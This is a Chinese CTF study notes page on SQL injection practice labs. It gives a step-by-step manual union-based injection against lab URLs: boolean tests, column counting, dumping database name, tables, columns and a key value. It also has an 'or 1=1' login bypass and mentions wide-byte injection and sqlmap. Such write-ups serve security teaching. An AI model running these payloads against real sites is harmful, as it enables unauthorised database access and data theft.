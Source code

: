 表单隐藏 http://ctf10.shiyanbar.com:8888/main.php

### sql注入

简单的直接上工具就ko了，如sqlmap，等-——10大sql注入工具

如下面几个：

1.http://ctf5.shiyanbar.com:8080/9/asp.asp

2.http://ctf5.shiyanbar.com/8/index.php?id=1

当然不用and XX也是可以的，下面只是举个例子

```
//手工注入过程
//判断注入类型为and布尔型注入
http://ctf5.shiyanbar.com/8/index.php?id=1%20and%201=1
http://ctf5.shiyanbar.com/8/index.php?id=1%20and%201=2
//判断字段数
http://ctf5.shiyanbar.com/8/index.php?id=1%20order%20by%203
http://ctf5.shiyanbar.com/8/index.php?id=1%20order%20by%202
//获取数据库基本信息(//concat_ws是字符串连接函数，其中第一个参数是分隔符，CHAR(58)是冒号，因为冒号的ASCII是58)
http://ctf5.shiyanbar.com/8/index.php?id=1%20and%201=2%20union%20select%201,concat_ws(CHAR(58),user(),database(),version())
//获取数据库中的表,其中table_schema可以理解为数据库吧(他是mysql系统表里面的一个字段，这里我们用16进制表示，就是上一句查询到的数据库)
http://ctf5.shiyanbar.com/8/index.php?id=1%20and%201=2%20union%20select%201,table_name%20from%20information_schema.tables%20where%20table_schema=0x6d795f6462
//获取重要表的字段
http://ctf5.shiyanbar.com/8/index.php?id=1 and 1=2 union select 1,column_name from information_schema.columns where table_name=0x746869736b6579
//获取表中的内容
http://ctf5.shiyanbar.com/8/index.php?id=1 and 1=2 union select 1,k0y from thiskey

```

3.http://lab1.xseclab.com/sqli2_3265b4852c13383560327d1c31550b60/index.php

密码随便输入

 ![](img/d1bd4d589319ce3d335145fd354727f2.png)

4.http://lab1.xseclab.com/sqli3_6590b07a0a39c8c27932b92b0e151456/index.php

payload：

http://lab1.xseclab.com/sqli3_6590b07a0a39c8c27932b92b0e151456/index.php?id=1 or 1=1

5.http://lab1.xseclab.com/sqli4_9b5a929e00e122784e44eddf2b6aa1a0/index.php?id=1

宽字节注入，在其他没头绪的时候必须考虑这个了，哎，而且题目都说过滤了
